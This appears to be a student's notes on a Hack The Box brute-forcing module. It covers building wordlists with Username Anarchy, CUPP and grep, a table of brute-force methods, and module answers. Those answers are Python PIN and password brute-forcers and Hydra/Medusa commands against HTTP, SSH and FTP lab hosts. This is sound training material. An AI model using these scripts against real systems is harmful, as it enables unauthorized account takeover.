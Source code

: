 ### Content
* Tools:
	* [[Hydra]]
	* [[Medusa]]
* [[#Custom Wordlists]]
	* Create personalized **username** wordlists using [Username Anarchy](https://github.com/urbanadventurer/username-anarchy.git)
	* Create personalized **password** wordlists using [CUPP](https://github.com/Mebus/cupp)
* [[#Edit a wordlist to be tailored to a specific policy with grep]]
* [[#Types of Brute Forcing]]
* [[#HTB Module Answers]]
---
## Edit a wordlist to be tailored to a specific policy with grep
Suppose we have this policy:
- Minimum length: 8 characters 
- Must include:
    - At least one uppercase letter 
    - At least one lowercase letter 
    - At least one number
    - At least two special characters (from the set `!@#$%^&*`)
``` bash
 grep -E '^.{8,}$' old-wordlist.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > new-wordlist.txt
```
---
## Custom Wordlists
* **Username Anarchy** 
``` bash
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
./username-anarchy john doe > john_doe_usernames.txt
```
* **CUPP**
``` bash
cupp -i
```
---
## Types of Brute Forcing
| Method                    | Description                                                                                                                   | Example                                                                                                                                                  | Best Used When...                                                                                                                           |
| ------------------------- | ----------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------- |
| `Simple Brute Force`      | Systematically tries all possible combinations of characters within a defined character set and length range.                 | Trying all combinations of lowercase letters from 'a' to 'z' for passwords of length 4 to 6.                                                             | No prior information about the password is available, and computational resources are abundant.                                             |
| `Dictionary Attack`       | Uses a pre-compiled list of common words, phrases, and passwords.                                                             | Trying passwords from a list like 'rockyou.txt' against a login form.                                                                                    | The target will likely use a weak or easily guessable password based on common patterns.                                                    |
| `Hybrid Attack`           | Combines elements of simple brute force and dictionary attacks, often appending or prepending characters to dictionary words. | Adding numbers or special characters to the end of words from a dictionary list.                                                                         | The target might use a slightly modified version of a common password.                                                                      |
| `Credential Stuffing`     | Leverages leaked credentials from one service to attempt access to other services, assuming users reuse passwords.            | Using a list of usernames and passwords leaked from a data breach to try logging into various online accounts.                                           | A large set of leaked credentials is available, and the target is suspected of reusing passwords across multiple services.                  |
| `Password Spraying`       | Attempts a small set of commonly used passwords against a large number of usernames.                                          | Trying passwords like 'password123' or 'qwerty' against all usernames in an organization.                                                                | Account lockout policies are in place, and the attacker aims to avoid detection by spreading attempts across multiple accounts.             |
| `Rainbow Table Attack`    | Uses pre-computed tables of password hashes to reverse hashes and recover plaintext passwords quickly.                        | Pre-computing hashes for all possible passwords of a certain length and character set, then comparing captured hashes against the table to find matches. | A large number of password hashes need to be cracked, and storage space for the rainbow tables is available.                                |
| `Reverse Brute Force`     | Targets a single password against multiple usernames, often used in conjunction with credential stuffing attacks.             | Using a leaked password from one service to try logging into multiple accounts with different usernames.                                                 | A strong suspicion exists that a particular password is being reused across multiple accounts.                                              |
| `Distributed Brute Force` | Distributes the brute forcing workload across multiple computers or devices to accelerate the process.                        | Using a cluster of computers to perform a brute-force attack significantly increases the number of combinations that can be tried per second.            | The target password or key is highly complex, and a single machine lacks the computational power to crack it within a reasonable timeframe. |

---
## HTB Module Answers
* Q1
``` python
import requests
ip = "94.237.51.112"
port = "40414"
for pin in range(10000):
    p = f"{pin:04d}"
    response = requests.get(f"http://{ip}:{port}/pin?pin={p}")
    print(f"pin: {p}")
    if response.ok:
        print(f"Correct pin: {p}")
        print(response.json())
        break
```
* Q2
``` python
import requests
ip = "94.237.60.32"
port = "45071"
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.split()
for password in passwords:
    print(f"Try: {password}")
    request = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})
    if request.ok:
        print(f"The correct password: {password}")
        print(request.json())
        break
```
* Q3
``` bash
hydra http-get://94.237.53.3:58756/ -l basic-auth-user -P "2023-200_most_used_passwords.txt"
```
* Q4
``` bash
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f http-post-form://94.237.60.32:33898/:username=^USER^&password=^PASS^:F=Invalid credentials
```
* Q5
``` bash
medusa -h IP -n PORT -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
# Login and use a session from the target:
ssh sshuser@<IP> -p PORT
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost
```